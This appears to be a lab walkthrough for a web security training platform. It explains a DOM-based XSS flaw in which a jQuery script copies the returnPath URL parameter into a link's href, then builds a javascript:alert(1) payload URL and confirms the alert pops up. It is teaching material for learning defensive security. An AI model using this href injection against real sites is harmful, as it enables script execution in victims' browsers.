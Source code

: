 # DOM XSS in jQuery anchor href atribute sink using locationSearch source

> ****\*\*****\*\*\*\*****\*\*****Instructions****\*\*****\*\*\*\*****\*\*****
>
> This lab contains a [DOM-based cross-site scripting](<../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md>) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.
>
> To solve this lab, make the "back" link alert `document.cookie`.

Access the **\*\*\*\***\*\***\*\*\*\***Home Page**\*\*\*\***\*\***\*\*\*\***, there is an \***\*\*\*\*\*\*\***anchor\***\*\*\*\*\*\*\*** tag `a` named ****\*\*****\*\*\*\*****\*\*****Submit feedback****\*\*****\*\*\*\*****\*\***** with the `href` attribute:

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20atribute%20sink%20using%20%locationSearch%20source%20images/Untitled.png)

```html
<a href="/feedback?returnPath=/">Submit feedback</a>
```

Click the anchor ******\*\*******\*\*******\*\*******Submit feedback******\*\*******\*\*******\*\******* and you will be routed to the feedback page

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20atribute%20sink%20using%20%locationSearch%20source%20images/Untitled%201.png)

Now, press `Ctrl + U` to view the Page’s Source and you would notice 2 points:

- The `href` attribute has been changed to:
  ```html
  <a href="/feedback?returnPath=/feedback">Submit feedback</a>
  <p>|</p>
  ```
- And scroll down below, there is a `script` using \***\*\*\*\*\*\*\***jQuery\***\*\*\*\*\*\*\*** library within the `attr()` function:
  ```jsx
  $(function () {
    $("#backLink").attr(
      "href",
      new URLSearchParams(window.location.search).get("returnPath")
    );
  });
  ```

The script would take the value from `?returnPath=` from the URL and then parse that value into the `href` attribute of the `#backLink` element which is the `< Back` button below

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20atribute%20sink%20using%20%locationSearch%20source%20images/Untitled%202.png)

```jsx
<a id="backLink" href="/feedback">
  Back
</a>
```

Click on the URL bar → press `END` to move the pointer to the end of the line → Remove the `/feedback` value and modify it with the malicious script:

```jsx
https://0aba006803a4c6ba81ab116a001400be.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

Press `Enter` to submit the change → Right-click to inspect the element of anchor ******\*\*******\*\*******\*\*******Submit Feedback******\*\*******\*\*******\*\******* → Verify that the `href` attribute has been changed with the `alert()` function:

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20atribute%20sink%20using%20%locationSearch%20source%20images/Untitled%203.png)

```jsx
<a href="/feedback?returnPath=javascript:alert(1)">Submit feedback</a>
```

Do the same with the `< Back` button

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20atribute%20sink%20using%20%locationSearch%20source%20images/Untitled%204.png)

```jsx
<a id="backLink" href="javascript:alert(1)">
  Back
</a>
```

Click the `< Back` button and it will display an alert pop-up window

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20atribute%20sink%20using%20%locationSearch%20source%20images/Untitled%205.png)
